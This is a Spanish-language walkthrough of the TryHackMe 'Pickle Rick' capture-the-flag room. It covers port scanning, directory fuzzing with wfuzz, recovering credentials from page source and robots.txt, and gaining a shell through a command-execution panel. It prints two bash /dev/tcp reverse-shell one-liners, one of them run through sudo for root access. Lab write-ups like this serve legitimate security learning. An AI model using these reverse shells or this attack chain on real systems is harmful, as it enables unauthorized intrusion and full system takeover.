 ```yaml
---
title : Máquina|Pickle Rick|THM
published : True
---
```



<div class="contenedor">
    <img src="imgs/pickleRick/pickleRick.jpg" width="160" alt="Cheese logo">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Facil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/picklerick" style="color: lightblue;">PicleRick</a></p>
    </div>
</div>

>

<h2><font color="white"><center># Pickle Rick</center></font></h2>
* <p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
* <p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
* <p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
* <p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
* <p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
* <p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
* <p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
* <p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
* <p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
* <p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
* <p>Ok maquina <font color="red">Vulnerada</font></p>
